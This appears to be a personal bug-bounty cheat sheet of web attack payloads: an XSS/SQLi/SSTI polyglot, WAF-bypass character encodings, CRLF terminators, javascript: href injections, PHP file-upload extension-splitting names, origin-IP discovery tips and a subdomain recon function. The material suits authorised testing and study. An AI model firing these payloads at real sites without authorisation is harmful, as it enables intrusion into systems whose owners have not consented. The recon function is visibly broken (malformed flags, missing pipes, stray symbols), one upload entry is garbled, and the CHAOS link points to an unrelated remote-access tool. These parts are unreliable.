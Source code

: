 ```yaml
---
layout: memory
title: Bug Bounty Cheat Sheet
---
```


<p align="center">
<img width="200" src="/images/bugbounty.png">
</p>
A cheat sheet for quick testing related to some of my Bug Bounty activities


## Test for XSS or SQLi as a oneliner

Testing Oneliner: `qwert'"<x</`

Explanation:
```
qwert - easy to type & find in HTML
'" - JS/HTML breakout & SQLi
<x - HTML injection test
</ - <script> breakout

extra for SSTI/CSTI

{{[7*7]}}${7*7}qwe'"<x</
```

## A full-width version of symbols related to XSS, CRLF, WAF bypass

```
＜ = %EF%BC%9C = \uFF1C ⇒ %3C (<)
＞ = %EF%BC%9E = \uFF1E ⇒ %3E (>)
＼ = %EF%BC%BC = \uFF3C ⇒ %5C (\)
／ = %EF%BC%8F = \uFF0F ⇒ %2F (/)
＇ = %EF%BC%87 = \uFF07 ⇒ %27 (')
＂ = %EF%BC%82 = \uFF02 ⇒ %22 (")

%0A (LF) ⇒ %EF%BB%AA = \uFEEA = ﻪ
%0D (CR) ⇒ %EF%BB%AD = \uFEED ⇒ ﻭ
```

This was produced by using this script:

```python
import argparse
import urllib.parse

def create_full_width(hex_value):
    hex_value = hex_value.upper()
    base_decimal = int(hex_value, 16)
    s = chr(base_decimal)

    if hex_value == '0A':
        s = 'LF'
    if hex_value == '0D':
        s = 'CR'

    fw_decimal = base_decimal + 0xFEE0
    fw_hex = format(fw_decimal, 'X')
    fw_char = chr(fw_decimal)
    fw_enc = urllib.parse.quote(fw_char).upper()

    return f"{fw_char} = %{fw_enc} = \\u{fw_hex} ⇒ %{hex_value} ({s})"

def showcase():
    # Example usage
    print(create_full_width('3C'))  # Output: ＜ = %EF%BC%9C = \uFF1C ⇒ %3C (<)
    print(create_full_width('3E'))  # Output: ＞ = %EF%BC%9E = \uFF1E ⇒ %3E (>)
    print(create_full_width('5C'))  # Output: ＼ = %EF%BC%BC = \uFF3C ⇒ %5C (\)
    print(create_full_width('2F'))  # Output: ／ = %EF%BC%8F = \uFF0F ⇒ %2F (/)
    print(create_full_width('27'))  # Output: ＇ = %EF%BC%87 = \uFF07 ⇒ %27 (')
    print(create_full_width('22'))  # Output: ＂ = %EF%BC%82 = \uFF02 ⇒ %22 (")
    print(create_full_width('0A'))  # Output: %0A (LF) ⇒ %EF%BB%AA = \uFEEA = ﻪ
    print(create_full_width('0D'))  # Output: %0D (CR) ⇒ %EF%BB%AD = \uFEED ⇒ ﻭ


def main():
    parser = argparse.ArgumentParser(description="Convert hex values to full-width characters and their URL-encoded representations.")
    parser.add_argument("--hex", help="Input hex value to convert", type=str, default=None)
    parser.add_argument("--demo", help="Showcase with demo input", action="store_true")
    args = parser.parse_args()

    if args.demo:
        showcase()
        
    if args.hex:
        print(create_full_width(args.hex))

if __name__ == "__main__":
    main()
```


## Line terminators for XSS / CRLF injection

```
LF: %0A (\u000A)
VT: %0B (\u000B)
FF: %0C (\u000C)
CR: %0D (\u000D)
CR+LF: %0D%0A (\u000D\u000A)
NEL: %C2%85 (\u0085)
LS: %E2%80%A8 (\u2028)
PS: %E2%80%A9 (\u2029)
```

## Bypass WAF 

Bypass by discovering the origin IP address of a server using the following:

- search domain on [Censys](https://search.censys.io/)
- domain history on [SecurityTrails](https://securitytrails.com/)
- test pingbacks (XML-RPC, SSRF)
- fake email to domain & check receipt
- receive domain email & check headers


## Injecting HTML character entities in different places of the URL

```html
<a href="{A}javas{B}cript{C}:alert(1)">
```

1. &#01, &#02 ... up to ... &#32
1. &#09, &#10, &#13
1. &#09, &#10, &#13

Example:
```html
<a href="&#27;javas&#09;cript&#13;:alert(1)">
Click Me
</a>
```


## Encodings for Common Symbols used for testing

```
`<` = %3C \u003c &#x3c; &#60; &lt;
`>` = %3E \u003e &#x3e; &#62; &gt;
`'` = %27 \u0027 &#x27; &#39; &apos;
`"` = %22 \u0022 &#x22; &#34; &quot;
`\` = %5C \u005c &#x5c; &#92; &bsol;
`/` = %2F \u002f &#x2f; &#47; &sol;
`:` = %3A \u003A &#x3A; &#58; &colon;
`%` = %25 \u0025 &#x25; &#37; &percnt;
`&` = %26 \u0026 &#x26; &#38; &amp;
`.` = %2E \u002e &#x2e; &#46; &period;
``` = %60 \u0060 &#x60; &#96; &grave;
`+` = %2B \u002B &#x2b; &#43; &plus;
```

## File upload extension splitting

```
qwe.php.png
qwe.php\x20.png
qwe.php\00.png
qwe.php\x00.png
qwe.php%00.png
qwe.php&#00;.png
qwe. e.php&#x00; .png
qwe.php\u0000.png
qwe.php%20.png
qwe.php&#20;.png
qwe.php&#x20;.png
qwe.php; .png
qwe.php%3B.png
qwe.php\x3B.png
qwe.php&#59;.png
qwe.php&#x3b;.png
qwe.php\u003b.png
qwe.php\u563b.png
qwe.php%C0%bb.png
qwe.php%E5%98%bb.png
qwe.php%E0%80%bb.png
qwe.php%E0%80%80.png
qwe.php%C0%A0.] 9.png
qwe.php%E5%98%A0.png
qwe.php%E0%80%A0.png
qwe.php\u5600.png
qwe.php\u5620.png
qwe.php%C0%80.png
qwe.php\u0020.png
```


## Autorecon for a domain

Make sure that this stuff is present:
* [amass](https://github.com/owasp-amass/amass)
* [assetfinder](https://github.com/tomnomnom/assetfinder)
* [CHAOS](https://github.com/tiagorlampert/CHAOS)
* [subfinder](https://github.com/projectdiscovery/subfinder)
* [dnsx](https://github.com/projectdiscovery/dnsx)
* [httpx](https://github.com/projectdiscovery/httpx)

```bash
 function autorecon {
	export d=$1
	amass enum - passive -norecursive -noalts -d $d -o domains-$d
	amass enum -passive -norecursive -noalts -df domains-$d -o domains-all-$d
	assetfinder -subs-only $d | anew domains-all-$d
	chaos -silent -d $d anew domains-all-$d
	subfinder -silent -d $d anew domains-all-$d
	cat domains-all-$d❘ dnsx -json -o dnsx-$d.json
	cat dnsx-$d.json | ja -r '.host' ❘ httpx -favicon -jarm -include-chain -p http:80, 8080, 8888, https:443,8443,8088 -json -o httpx-$d.json
}
```